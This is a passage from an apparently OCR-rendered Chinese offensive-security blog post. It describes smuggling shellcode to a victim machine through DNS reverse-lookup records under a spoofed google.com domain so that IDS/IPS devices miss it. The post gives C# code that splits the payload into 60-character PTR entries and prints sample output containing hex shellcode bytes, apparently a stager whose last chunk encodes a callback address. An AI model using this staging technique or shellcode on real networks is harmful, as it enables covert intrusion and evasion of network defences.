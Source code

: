 ## **2.2 思路**

我们就可以将我们的payload数据转化成字符串数据，然后分成多个IP的反向解析域名结果，然后在受害者机器上查询出这些结果，并拼接出完整的payload。

## **2.3 优点**

最大的优点就是在内网中IDS/IPS等防火墙设备一般是不会监控DNS协议的数据。

## **2.4 缺点**

因为受反向解析域名长度的影响，子域名串最多不能超过60字符，如上“fc4883e4f0e8c8000000415141505251564831d265488b5260488b521848”就是60字符。所以payload数据只能分成多个IP地址来反向解析。

但是nslookup一次只能查询一个ip地址的反向解析结果，需要执行多次nslookup查询。或者你在程序里封装一个DNS Client，要支持指定DNS server，支持反向解析，本人暂时还没有好的、大小又合适的解决方法，希望知道的大佬告知一下。

**0x03 C#实现DNS反向解析传输数据**

## **3.1 DnsHostCreate**

这个程序用来生成DNS 反向解析的格式化数据，即将我们输入的payload格式化成能够DNS反向解析的数据。程序需要3个参数，第一个是DomainName(即我们需要欺骗的域名，如上是google.com)，第二个是IP地址段(即用来做反向解析的IP地址段，如上是192.168.1)，第三个参数是payload数据。

格式化参数数据

```
string domain = args[0];string ipsegment = args[1];string payload = args[2];string str = payload.Replace("0x","").Replace(", ","").Replace(" ","");
```

获取需要用来存放payload数据的IP数量

```
int dns_data_lenght = str.Length / 60;if(str.Length % 60 !=0 ){    dns_data_lenght += 1;}
```

将payload数据分别截断存放在对应的IP反向解析数据中  

```
for (int i = 0; i < dns_data_lenght; i++){    string dns = "";    if (i == dns_data_lenght - 1)    {        dns = str.Substring((dns_data_lenght - 1) * 60);    }    else    {        dns = str.Substring(i * 60, 60);    }    Console.WriteLine(string.Format("{0}.{1} \"{2}.{3}\"", ipsegment, i.ToString(),dns,domain));}
```

最终得到反向解析的格式化数据如下：

```
192.168.1.0 "fc4883e4f0e8c8000000415141505251564831d265488b5260488b521848.google.com"192.168.1.1 "8b5220488b7250480fb74a4a4d31c94831c0ac3c617c022c2041c1c90d41.google.com"192.168.1.2 "01c1e2ed524151488b52208b423c4801d0668178180b0275728b80880000.google.com"    ...192.168.1.29 "9689e2ffd54883c42085c074b6668b074801c385c075d758585848050000.google.com"192.168.1.30 "000050c3e87ffdffff31302e302e302e380000000000.google.com"
```

而得到的IP数量和自定义的IP段也要记录下来，后续要用到
